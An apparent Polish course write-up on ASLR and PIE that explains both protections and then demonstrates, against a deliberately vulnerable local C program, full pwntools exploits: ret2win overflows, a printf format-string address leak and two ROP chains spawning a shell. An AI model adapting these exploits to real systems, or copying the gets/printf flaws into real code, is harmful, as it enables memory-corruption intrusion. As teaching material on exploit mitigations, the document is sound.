



# ALSR & PIE

W tym `solution.md` opiszę jednocześnie dwie metody, `ASLR` oraz `PIE`. Uważam że działanie tych metod jest na tyle połączone ze sobą, że nie ma sensu rozdzielać je na dwa oddzielne opracowania.


## 1. Opis

#### ASLR

`ASLR`, a dokładniej `Addres Space Layout Randomization` to technika, która losuje przestrzeń adresową podczas startu programu. Jest implementowana systemowo, niezależnie od kompilacji. Dzieki temu ataki opierające się na `BOF` są trudniejsze w wykonaniu ze względu na randomizację adresów. ASLR losuje adresy dla wszystkich sekcji oprócz `text` i `plt`. Losowość tych sekcji można zaobserować w `gdb` poprzez polecenie `vmmap` i `plt`, jednakże aby to zrobić należy podłączyć się pod istniejący proces w systemie poprzez komende `attach pid` lub włączyć ASLR w gdb poprzez komendę `set disable-randomization off` -  w `gdb` ASLR jest domyślnie **wyłączony**




ASLR można włączyć i wyłaczyć przy pomocy komendy `echo X | sudo tee /proc/sys/kernel/randomize_va_space`, gdzie `X = 0` to ASLR wyłączony, a `X = 2` ASLR włączony.


#### PIE


`PIE` - `Position indepented executable` jest to technikam, które losuje adres bazowy (base addres). Po skompilowaniu programu widzimy jedynie offsety do danych funkcji, całe poruszanie się po kodzie opiera się na offsetach a nie na dokładnych adres, tak jak to jest bez PIE. Adres bazwoy jest dodawany do każdego adresu podczas uruchamiania aplikacji, co pwooduje losowość wszytskich elementów.


Metoda ta niejako dopełnia ASLR, gdyż PIE zapewnia to że sekcjie `text` oraz `plt` nie są statyczne. Dzięki tekiemu połączeniu ASLR+PIE wsyztskie sekcje posiadają zmienne adresy co znaczoąco poprawia bezpieczeńśtwo funkcji. Base addres jest każdorazowo losowany przy uruchomieniu aplikacji. Poniżej można zauważyć, że adresy wszystkich sekcji są zmienne. 


## 2. Wady i zalety

#### ASLR

Zaletą użycia ASLR w aplikacji jest oczywiście randomizacja adresów. Ataki opierające się na odwołaniu do stacka są niewykonywalne, ze względu  na niezajomośc pozycji stosu w pamięci. Ataki typu shellcode injection są w takim przypadku niewynoywalne.

Wadą stosowania samego ASLR jest fakt, że sekcja data jest statyczna. Pozwala to na wykonanie ataków typu ROP, które wykorzystują fragmenty kodu z pamięci aby następnie np. zdobyć shella. Możliwym zabezpieczeniem jest stosowanie w takich przypadkach PIE.

Wadą/zaletą jest również wpływ na wydajność - to czy używanie tej metody zabezpiecznia jest wadą czy laletą zależy od od systemu. Więcej o tym w punkcie 4.


#### PIE

W tym przypadku nalezy zacząć od wad, ponieważ samo używanie `PIE` bez używania `ASLR` jest nieefektywne. Program skopiluje się, a w kodzie asm będzie widać, że kod opiera się na offsetach, jednakże po uruchomieniu adres bazowy będzie za każdym razem identyczny.

Oczywistą zaletą `PIE` jest jego wpływ na bezpieczeństwo. Dzięki randomizacji adresu bazowego binarki ataki są trudniejsze. Atak ROP staje się niemożliwy do wykonania, ponieważ sekcja text jest losowana - ma to oczywiście sens jedynie z włączonym ASLR.

Należy wspomnieć również o pływie na wydajność kompilacji programu z `PIE`. Straty w wydajności potrafią być duże ze względu za rezerwowanie jednego z rejestrów. Powoduje to dodatkową ilość operacji (czesto należy coś wrzucić na stos aby tylko zwolnić rejestr). Sytacjia taka występuje na x86, wówczas straty to 10-26%. Taka sytacja nie ma jednak miejsca w x86_64, ponieważ mamy tam więcej rejestrów.


## 3. GCC i Clang

ASLR jest metodą niezależną od kompilacji.

Kompilatory `gcc` oraz `clanf` domyślnie używają pie podczas kompilacji. Aby nie kompilwować aplikacji z pie nalezy dodać flagę `-no-pie`. Warto wspomnieć, że domyslnie nie jest możliwe kompilwoanie programu z statycznymi bibliotekami oraz pie. Nalezy wówaczas użyć flagi `-static-pie`.


## 4. Różnice w Windows i Linux

#### ASLR

W obu systemach celem ASLR jest randomizacja adresów, jednakże występuje różnica w ich implementacji.

W linuxie ASLR jest `compile-time option`. ASLR implemententowawny jest przez kernel. Oznacza to, że ASLR ma wpływ na wydahność aplikacji, ponieważ ASLR musi być kompilowany z PIE. Badania wskazują, że może to prowadzić do 10-26% strat w wydajności w  przypadku architektury x86, jednakże na architekturze x86_64 straty są już niewielkie ze względu na większą ilosć rejestrów.


W windowsie ASLR jest `link-time option`. Kod jest patch-owany podczas pracy programu. Włączaony jest przez opcję `/DYNAMICBASE`. ASLR na architekturze x86 nie powoduje strat wydajności, a może wystąpić nawet jej poprawa. Warto jednak nadmienić, że ASLR może spowodować wolniejsze ładowaniue modułów.


## 5.1 Przykładowa aplikacja - atak na aplikację z róznymi ustawieniami ASLR i PIE


Celem tego ataku będzie pokazanie wpływu ASLR i PIE na możliwość exploitacji aplikacji.

Pierwotne założenia kompilacji:

* Kompilacja na 32-bit = `-m32`
* Włączone NX - brak mozliwości wykonania kodu maszynowego ze stosu
* Wyłączone Stack Cannary = `-fno-stack-protector` - przełenienie bufora bez potrzeby leakowania kanarka
* PIE - w zależności od podpunkty
* ASLR - w zależności od podpunktu

Poniżej znajduje się kod podatnej aplikacji. Ten sam kod aplikacji został użyty we wszystkich atakach w tym opracowaniu. Podatnościami w przypadku tej aplikacji jest używanie funkcji `gets()` oraz `printf()`, a takżę metoda `win`, która pozwala zdobyć shell-a. Celem ataków jest dostanie się do tej funkcji.

```c
#include <stdio.h>
#include <stdlib.h>


void win(){
        system("/bin/sh");
}

void vuln()
{
        char buffer[16];
        gets(buffer);
        printf(buffer);
        printf("\n");
        gets(buffer);
}

int main(int argc, char *argv[])
{
        vuln();
        return 0;
}
```


Aby zdobyć shella nalezy:

* odnaleźć adres funkcji `win`
* odnaleźć padding 


W przypadku każdego z popunktów padding jest identyczny i wynosi 28 znaków. Jako payload wysyłam ciąg znaków wygenerowany przez narzędzie `cyclic` dostarczone wraz z pwntools. Generwaony ciąg jest ciągiem `de Bruijna`. Powoduje to, że każdy podciąg w danym ciągu występuje tylko raz. Poprzez komendę `cyclic X` tworzymy ciąg, gdzie X to długość ciągu, następnie sprawdzamy na jaką wartością zostanie nadpisany adres powrotu. Do obliczenia  padding użyłem komendy `cyclic -l sequence` gdzie sequence to wartośc w eip.


### a) NO ASLR & NO PIE

PLIKI:
* vuln-1
* exploit-1

Jako że ASLR oraz PIE jest wyłączone, adres funkcji `win` jest stały. Oznacza to, że adres mogę pobrać bezpośrednio z `gdb`. Wówczas exploit to podanie odpowiedniego paddingu oraz nadpisanie adresu powrotu adresem funkcji `win`.


Kod prostego exploitu znajduje się poniżej.

```python
#!/usr/bin/env python3

from pwn import *

p = process('./vuln')

send = b"A" * 28 + p32(0x08049192)
p.sendline(b"")
p.sendline(send)

p.interactive()
```


W wyniku poniższego exploitu dostajemy shella.


### b) NO ASLR & PIE

PLIKI:
* vuln-protected-2
* exploit-protected-2.py

W przypadku tego ustawienia, asm skompilowanej aplikacji oparty jest na liczeniu offsetów. Jednakże, base addres jest stały, gdyż nie używamy ASLR. 

Base addres można poznać uruchamiając aplikację w `gdb` i używając komendy `vvmap`. Adres bazowy to `0x56555000`. Offset do funkcji `win` rówieniż pobrałem za pomocą `gdb` używając komendy `disasseble win` - jest to wartość `0x11c9`.

```python
#!/usr/bin/env python3

from pwn import *

p = process('./vuln-2')

base_addres = 0x56555000

win_addres = 0x000011c9

win_addres = base_addres + win_addres

send = b"A" * 28 + p32(win_addres)
p.sendline(b"")
p.sendline(send)
p.interactive()
```


W wyniku poniższego exploitu dostajemy shella.


### c) ASLR & NO PIE

PLIKI:
* vuln-1
* exploit-1.py

W takiej konfiguracji atak opisany, tak jak w podpunkcie `a)` jest identyczny. Dzieje się tak, ponieważ sekcja `text` nie jest losowana. Jej adres jest stały. Wartość funkcji `win` można pobrać z `gdb` tak samo jak w podpunkcie `a)`. Exploit ten sam co w punkcie `a)`.




### d) ASLR & PIE

PLIKI:
* vuln-protected-2 
* exploit-protected-3.py

W takim przypadku takim, wszystkie segmenty pamięci są losowane. Skok do funkcji `win` jest niemalże niemożliwy jeżeli nie zleakujemy adresu bazowego PIE. Możliwe jest to tylko jeżeli występuje podatność pozwalająca leakować pamieć.

Do wyleakowania adresów na stosie używam podatności funkcji `printf`, która jest w stanie wypisać wartości ze stosu po zastosowaniu odpowiednich specyfikatórów - w tym przypadku jest to `%p`, ponieważ wyświetla in wartści z `0x` na początku, co umożliwia wypisanie większej ilości stosu.

```python
from pwn import *

p = process('./vuln-2')

p.sendline("%p" * 7)

data = p.readline()
data = data.split(b"0x")
for i in range(len(data)):
    log.info("{} {}".format(i, data[i]))
```


Po wypisaniu wartości okazało się, że 4 wartość to jeden z adresów w funkcji `vuln`. Zatem obliczając jedynie offset tej isntrukcji do funkcji `win` jestem w stanie uzyskać adres `win`. 


Zatem aby uzyskać adres `win` należy odjąc offset od zleakowanej instrukcji. Finalnie exploit wygląda następująco.

```python
#!/usr/bin/env python3

from pwn import *

p = process('./vuln-2')

p.sendline("%p" * 7)

data = p.readline()
data = data.split(b"0x")
for i in range(len(data)):
    log.info("{} {}".format(i, data[i]))

some_addr = int(data[3],16)
offset = 0x37
win_addres = some_addr - offset

log.success("WIN AT: 0x%08x" % win_addres)
send = b"A" * 28 + p32(win_addres)

p.sendline(send)

p.interactive()
```


W wyniku exploita uzyskujemy shella.


Warto zauważyć, że gdyby nie podatność programu w postaci możliwości wylistowania zawartośći stosu, wówczas atak nie udałby się - nie jesteśmy w stanie odnaleźć adresu funkcji `win` ani odgadnąć pozycji stosu w pamięci.


## 5.2 Przykładowa aplikacjia - `ROP`


`ROP` - Return-Oriented Programing jest techniką exploitacji programu poprzez wykonywanie kodu na atakowanej maszynie. W tym przypadku, zamiast wstrzykiwać kod uzywamy isntrukcji zawartycj już w aplikacji. Instrukcje takie, zwane `gadgetami`, muszą zawierać instrukcję `ret` aby przechodzić do kolejnych gadżetów.

W przypadku dwóch opisanych ataków, celem jest wykonanie syscalla `exceve()` z odpowiednimi argumentami, aby otrzymać shella. Zatem aby tego dokonać wymagane jest:

* ustawienie rejestru `eax` na wartość 0xb
* ustawienie rejestru `ebx` aby wskazywał na `\bin\\sh`
* wyzerowwanie rejestrów `ecx` oraz `edx`

Do uzyskania gadżetów posłużyłem sie programmem `ROPgadget`, który przeszukuje zdekompilowany kod aplikacji w celu odnalezienia interesujących gadgetów. Gadgety można odnaleźć w katalogu `ropping-things`.

Założenia kompilacji:

* Kompilacja na 32-bit = `-m32`
* Włączone NX - brak mozliwości wykonania kodu maszynowego ze stosu
* Wyłączone Stack Cannary = `-fno-stack-protector` - przełenienie bufora bez potrzeby leakowania kanarka (w checksec kanarek jest widoczny ponieważ kompilujemy statycznie)
* PIE - w a) wyłączony `-no-pie` , w b) włączony
* ASLR - włączony - randomizacja adresów
* Statyczna kompilacja `-static` w przypadku a) i `-static-pie` w przypadku b)


Kod aplikacji jest ten sam co we wszytskich punktach. Wykorzystywanymi podantościami są `gets()` i `printf()`.


### a) ASLR & NO PIE

PLIKI:
* vuln-protected-3
* exploit-protected-4.py

W przypadku konfiguracji bez `PIE` odnalezienia adresów gadgetów jest trywialne. Sekcja text, w której znajduje się kod aplikacji jest stały. Gdgety który odnalazłem pozwalają mi umieścić argument `/bin//sh` w odpowiednie miejsce w pamięci, a także powalają mi ustawic wartości w rejestrach na takie, które są potrzeben do wykonania syscalla.

```python
0x080793c4 : mov dword ptr [eax], edx ; ret
0x08065abe : pop edx ; pop ebx ; pop esi ; ret
0x0805bf75 : pop ebp ; mov eax, edx ; ret
0x08063ca1 : pop ecx ; add al, 0xf6 ; ret
0x0804a6c2 : int 0x80
```


Posługując się tymi gadgetami jestem w stanie stworzyć odpowiednie funkcje, które będą wykonywać rózne czynności, typu ustawienie rejestru lub zapisanie wartości pod dany adres. Poniżej znajdują się odpowiednie funkcje, do rejestrów których nie potrzebuję ustawiać, czyli `esi` oraz `ebp` wstawiam wartość `0xfadeface` - służyło to jedynie w celach debugowania, może to być równie dobrze 0.


```python
def set_edx_ebx(edx,ebx):
    return p32(0x08065abe) + p32(edx) + p32(ebx) + p32(0xfadeface) 

def write_to_mem(addr, val):
    return set_eax(addr) + set_edx_ebx(val,0xfadeface) + p32(0x080793c4)

def set_eax(val):  
    return set_edx_ebx(val,0x0) + p32(0x0805bf75) + p32(0xfadeface)

def set_ecx(val):
    return p32(0x08063ca1) + p32(val)

def int80():
    return p32(0x0804a6c2)
```


Ostatnim elementem było odnalezienie odpowiedniego miejsca, w które mógłbym napisać wartość `\bin\\sh`. Możlowości są dwie:
* wyleakować adres ze stosu, a następnie obliczyć offset na nasz buffor - w takim przypadku gadgety odpowiadające za zapis na na stos byłby niepotrzebne
* odnaleźć wolne miejsce w sekcji bss aplikacji - ten sposób wykorzytsałem w tym przypadku


Aby odnaleźć sekcję `bss` programu poslużyłem się dekompilatorem `gihidra`. Każda sekcja zawsze jest wyrównana do 12 bitów. W dekompilatorze widać, że sekcja bss kończy się przed adresie `0x080e8140`. Oznacza to, że pamięć od adresu `0x080e8144` jest wolna. Można to sprawdzić za pomocą komendy `hexdump 0x080e8144` w gdb.  Warto zauważyć, że w tej sekcji pamięci jest wiele wolnego miejsca, w tym przypadku znajduje się tam jeszcze `0xebc` wolnych byteów.

```python
>>> 0x1000 - 0x144
3772
>>> hex(_)
'0xebc'
```


Kolejnym etapem było stworzenie shellcode, który po dodaniu odpowiedniego paddingu ustawia odpowiednie rejestry. Shellcode wywołuje odpowiednie funkcje zdefiniowane wcześniej.

```python
shellcode = b''.join([
    b"A" * 28,
    write_to_mem(buffor, u32("/bin")),
    write_to_mem(buffor + 4, u32("//sh")),
    set_ecx(0x0),
    set_eax(0x0b),
    set_edx_ebx(0x0, buffor),
    int80()
])
```


Finalnie exploit prezentuje się następująco.

```python
#!/usr/bin/env python3

from pwn import *


################ IN USAGE #####################
# 0x080793c4 : mov dword ptr [eax], edx ; ret
# 0x08065abe : pop edx ; pop ebx ; pop esi ; ret
# 0x0805bf75 : pop ebp ; mov eax, edx ; ret
# 0x08063ca1 : pop ecx ; add al, 0xf6 ; ret
# 0x0804a6c2 : int 0x80


def set_edx_ebx(edx,ebx):
    return p32(0x08065abe) + p32(edx) + p32(ebx) + p32(0xfadeface)

def write_to_mem(addr, val):
    return set_eax(addr) + set_edx_ebx(val,0xfadeface) + p32(0x080793c4)

def set_eax(val):
    return set_edx_ebx(val,0x0) + p32(0x0805bf75) + p32(0xfadeface)

def set_ecx(val):
    return p32(0x08063ca1) + p32(val)

def int80():
    return p32(0x0804a6c2)

#addres in bss section
buffor = 0x80e8144

shellcode = b''.join([
    b"A" * 28,
    write_to_mem(buffor, u32("/bin")),
    write_to_mem(buffor + 4, u32("//sh")),
    set_ecx(0x0),
    set_eax(0x0b),
    set_edx_ebx(0x0, buffor),
    int80()
])

p = process('./vuln-protected-3')

p.sendline(b"")
p.sendline(shellcode)

p.interactive()
```


W wyniku powyższego exlpoitu uzyskuję shella.




### b) ASLR & PIE

PLIKI:
* vuln-protected-4
* exploit-protected-5.py

Exploitacja programu z `PIE` jest o tyle trudniejsza, ponieważ sekcja text jest równiez ruchoma. Aby odnaleźć offset, dzięki któremu wiem gdzie znajdują się wszytskie isntrukcji posłużyłem się identycznym sposobem co w punkcie `5.1 d)` - schemat jak to zrobiłem jest przedstawiony we wskazanym punkcie. 

W tym przypadku wartość `/bin//sh` zapisuję na stosie, a dokładnie w bufforze w którym występuje BOF. Adres bufora uzyskuję poprzez lekowania wartość ze stosu - druga wartośc wypisana ze stosu okazuje się być wskaźnikiem na pewne miejsce w stosie. Po odnalezieniu tego miejsca w `gdb` odjałem odpowiednią wartość, czyli `0xd4` co pozowliło uzyskać odpowiedni adres.

Gadgety które odnalazłem w tym  przypadku służą jedynie do ustawienia odpowiednich rejestrów, a mianowicie `exc`, `ebx` oraz `eax`.

```python
0x0006a883 : add al, 0x8b ; inc eax ; pop eax ; ret
0x0001fc5e : pop edx ; pop ebx ; pop esi ; ret
0x0000301e : pop ebx ; ret 
0x0001de41 : pop ecx ; add al, 0xf6 ; ret
0x00004862 : int 0x80
```


Aby wykorzystać te gadgety stworzyłem odpowiednie funkcje. W tym przypadku należy jednak dodać odpowiedni offset, który pozwoli odwołąć się do rzeczywistych adresów instrukcji w pamieci aplikacji. 

```python
def set_eax(eax):
    return p32(offset + 0x0006a883) + p32(eax)

def set_edx_ebx(edx, ebx):
    return p32(offset + 0x0001fc5e) + p32(edx) + p32(ebx) + p32(0xfadeface)

def set_ebx(val):
    return p32(offset + 0x0000301e) + p32(val)

def set_ecx(val):
    return p32(offset + 0x0001de41) + p32(val)

def int80():
    return p32(offset + 0x00004862)
```


Kolejnym etapem było stworzenie shellcodu. Składa się on z dodania odpowiedniego paddingu, w którego w skład wchodzi argument `\bin\\sh` zakończony null bytem oraz odpowiednich instrukcji ustawiające odpowiednie rejestry.

```python
shellcode = b''.join([
    p32(u32('/bin')),
    p32(u32('//sh')),
    p32(0),
    b"A" * (padding_len - 4 * 3),
    set_ecx(0x0),
    set_eax(0xb),
    set_edx_ebx(0x0, buffor),
    int80()
])
```


Ostatecznie exploit wygląda następująco. 


```python
#!/usr/bin/env python3

from pwn import *


############### IN USAGE ## #################
# 0x0006a883 : add al, 0x8b ; inc eax ; pop eax ; ret
# 0x0001fc5e : pop edx ; pop ebx ; pop esi ; ret
# 0x0000301e : pop ebx ; ret
# 0x0001de41 : pop ecx ; add al, 0xf6 ; ret
# 0x00004862 : int 0x80


def set_eax(eax):
    return p32(offset + 0x0006a883) + p32(eax)

def set_edx_ebx(edx, ebx):
    return p32(offset + 0x0001fc5e) + p32(edx) + p32(ebx) + p32(0xfadeface)

def set_ebx(val):
    return p32(offset + 0x0000301e) + p32(val)

def set_ecx(val):
    return p32(offset + 0x0001de41) + p32(val)

def int80():
    return p32(offset + 0x00004862)


p = process('./vuln-protected-4')

# retrive offset and buffor addres
p.sendline("%p" * 7)
data = p.readline()
data = data.split(b"0x")
for i in range(len(data)):
    log.info("{} {}".format(i, data[i]))

offset = int(data[3],16) - 0x00003f90
log.info("START_OF_TEXT: 0x%08x" % offset)

buffor = int(data[1],16) - 0xd4
log.info("BUFOR: 0x%08x" % buffor)


# shellcode
padding_len = 28

shellcode = b''.join([
    p32(u32('/bin')),
    p32(u32('//sh')),
    p32(0),
    b"A" * (padding_len - 4 * 3),
    set_ecx(0x0),
    set_eax(0xb),
    set_edx_ebx(0x0, buffor),
    int80()
])

p.sendline(shellcode)

p.interactive()
```


W wyniku powyższego exploita otrzymujemy shella. Na potrzeby screenshota zakomentowany został fragment z wypisywaniem wartości ze stosu.


## 6. Podsumowanie


Ochrona aplikacji poprzez używanie tylko ASLR lub PIE jest pozbawiona sensu. W przypadku użycia tylko ASLR sekcja text jest stała co sprawia, że atak ROP jest możliwy. W przypadku samego PIE znam adres bazowy, gdyż jest to stała wartość.

Aby zabezpieczyć aplikację należy użyć obie metody - ASLR i PIE  Gwarantuje to losowość każdej sekcji w programie. Dzieki temu bezpieczeństwo znacznie się poprawia. Należy jednak unikać niebezpiecznych funkcji pogroju `gets()` oraz `printf()` gdyż pozwalają one ominąć te zabezpieczenia poprzez liczenie odpowiednich offsetów do sekcji, do którch atakujący chce się dostać.


